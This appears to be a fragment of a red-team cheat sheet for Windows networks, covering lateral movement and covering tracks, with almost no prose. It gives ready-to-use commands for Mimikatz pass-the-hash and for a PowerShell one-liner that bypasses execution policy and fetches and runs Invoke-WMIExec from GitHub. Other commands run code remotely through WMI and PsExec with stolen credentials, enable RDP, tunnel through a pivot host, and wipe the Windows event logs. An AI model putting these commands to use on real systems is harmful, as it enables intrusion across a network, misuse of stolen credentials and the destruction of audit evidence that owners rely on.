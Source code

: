 ### Lateral Movement

#### Pass-the-Hash
```powershell
# Using Mimikatz PtH
sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:HASH /run:cmd.exe

# Using PowerShell PtH
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Invoke-TheHash/master/Invoke-WMIExec.ps1'); Invoke-WMIExec -Target TARGET_IP -Username USERNAME -Hash NTLM_HASH -Command 'cmd.exe /c calc.exe'"
```

#### WMI Remote Execution
```powershell
# Using WMIC
wmic /node:TARGET_IP /user:DOMAIN\\USERNAME /password:PASSWORD process call create "cmd.exe /c command"

# Using PowerShell
Invoke-WmiMethod -ComputerName TARGET_IP -Credential $cred -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c command"
```

#### PsExec
```powershell
# Using PsExec
psexec.exe \\TARGET_IP -u DOMAIN\USERNAME -p PASSWORD cmd.exe

# PowerShell remoting
Enter-PSSession -ComputerName TARGET_IP -Credential (Get-Credential)
```

#### RDP Tunneling
```powershell
# Enable RDP
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

# RDP tunneling via SSH
# On attacker: ssh -L 3389:TARGET_IP:3389 PIVOT_USER@PIVOT_IP
# Then connect to RDP on localhost:3389
```

### Covering Tracks

#### Clear Event Logs
```powershell
# Clear individual logs
wevtutil cl System
wevtutil cl Security
wevtutil cl Application

# Clear all logs
for /F "tokens=*" %1 in ('wevtutil.exe el') DO wevtutil.exe cl "%1"

# PowerShell alternative
Get-EventLog -LogName * | ForEach { Clear-EventLog $_.Log }
```
